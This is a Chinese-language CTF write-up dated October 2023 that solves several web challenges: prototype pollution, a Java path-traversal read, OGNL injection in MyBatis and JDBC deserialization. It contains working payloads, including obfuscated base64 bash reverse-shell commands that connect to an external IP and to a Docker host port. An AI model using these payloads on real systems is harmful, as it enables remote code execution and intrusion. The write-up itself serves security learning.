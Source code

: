# web
### ez_sandbox
#原型链污染 

过滤了 `__proto__`
`constructor.prototype`绕过

先注册一个用户
,在登录时污染admins对象
```json
{"username":"leijk","password":"leijk","constructor":{"prototype":{"leijk":"123"}}}
```

---
vm沙箱不会绕


### auth_bypass
#java
给了源码,审计发现存在任意文件读取,前缀的download使用双斜杠绕过
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231022211027.png)
读取配置文件web.xml
得到evil路径并读取evilServlet的class源码 `../WEB-INF/classes/com/example/demo/EvilServlet.class`
反编译打开,存在恶意命令执行
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231022211317.png)

Runtime.exec()单参数命令执行需要修改以下反弹shell的形式
https://blog.spoock.com/2018/11/25/getshell-bypass-exec/

需要urlencode以下字符串
```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC81NC4yNTUuMTY2LjEyLzgyIDA+JjE=}|{base64,-d}|{bash,-i}
```

### mybaits
mybaits2.2存在ongl表达式注入漏洞
#ongl 
```java
${@java.lang.Runtime@getRuntime().exec("calc")}
//反弹shell需要{},使用base64编码
${@java.lang.Runtime@getRuntime().exec(new java.lang.String(@java.util.Base64@getDecoder().decode('YmFzaCAtYyB7ZWNobyxZbUZ6YUNBdGFTQStKaUF2WkdWMkwzUmpjQzgxTkM0eU5UVXVNVFkyTGpFeUx6Z3lJREErSmpFPX18e2Jhc2U2NCwtZH18e2Jhc2gsLWl9')))}
```

### testConnection
会进行一个数据库的test连接,存在jdbc反序列化漏洞

远程`java -jar fake*.jar`开启一个fake server 可以-p指定端口

![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231106172857.png)

jdbc命令
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231106173305.png)

```url
/testConnection?
driver=com.mysql.cj.jdbc.Driver&url=jdbc:mysql://host.docker.internal:3308/test?
autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&username=deser_CC31_bash -c
{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC9ob3N0LmRvY2tlci5pbnRlcm5hbC80NDQ0IDA+JjE=}|{base64,-
d}|{bash,-i}&password=123
```

# reverse


# pwn

# crypto

# Misc


---
# *相关wp*




2023-10-21   13:22